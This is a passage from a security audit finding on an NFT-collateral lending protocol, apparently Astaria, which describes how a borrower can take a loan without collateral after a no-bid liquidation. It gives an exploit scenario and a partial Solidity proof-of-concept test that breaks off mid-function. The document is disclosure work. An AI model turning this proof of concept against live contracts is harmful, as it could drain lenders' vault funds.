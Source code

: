 This allows the owner of the liquidated collateral NFT to create a new lien and take the maximal loan without providing any collateral.

**Exploit Scenario**

1.  Alice deposits an NFT token as a collateral and takes a loan.
2.  Alice's loan expires and her NFT collateral gets liquidated by Bob.
3.  The collateral NFT wasn't sold off auction as there were no bids.
4.  Bob claims the collateral NFT and receives it.
5.  Alice takes another loan from the vault without providing any collateral.

The following PoC demonstrates the above scenario:

```solidity
// src/test/AstariaTest.t.sol
function testAuctionEndNoBidsMismanagement_AUDIT() public {
  address bob = address(2);
  TestNFT nft = new TestNFT(6);
  uint256 tokenId = uint256(5);
  address tokenContract = address(nft);

  // Creating a public vault and providing some liquidity.
  address publicVault = _createPublicVault({
    strategist: strategistOne,
    delegate: strategistTwo,
    epochLength: 14 days
  });

  _lendToVault(Lender({addr: bob, amountToLend: 150 ether}), publicVault);
  (, ILienToken.Stack[] memory stack) = _commitToLien({
    vault: publicVault,
    strategist: strategistOne,
    strategistPK: strategistOnePK,
    tokenContract: tokenContract,
    tokenId: tokenId,
    lienDetails: blueChipDetails,
    amount: 100 ether,
    isFirstLien: true
  });

  uint256 collateralId = tokenContract.computeId(tokenId);
  vm.warp(block.timestamp + 11 days);

  // Liquidator liquidates the loan after expiration.
  address liquidator = address(0x123);
  vm.prank(liquidator);
  OrderParameters memory listedOrder = ASTARIA_ROUTER.liquidate(
    stack,
    uint8(0)
  );

  // Skipping the auction duration and making no bids.
  skip(4 days);

  // Liquidator claims the liquidated NFT.
  vm.prank(liquidator);
  COLLATERAL_TOKEN.liquidatorNFTClaim(listedOrder);
  PublicVault(publicVault).processEpoch();

  // Liquidator is the rightful owner of the collateral NFT.
  assertEq(nft.ownerOf(tokenId), address(liquidator));

  // Since the auction wasn't fully settled, the CollateralToken still exists for the collateral NFT.
  // The borrower is the owner of the CollateralToken.
  assertEq(COLLATERAL_TOKEN.ownerOf(collateralId), address(this));
```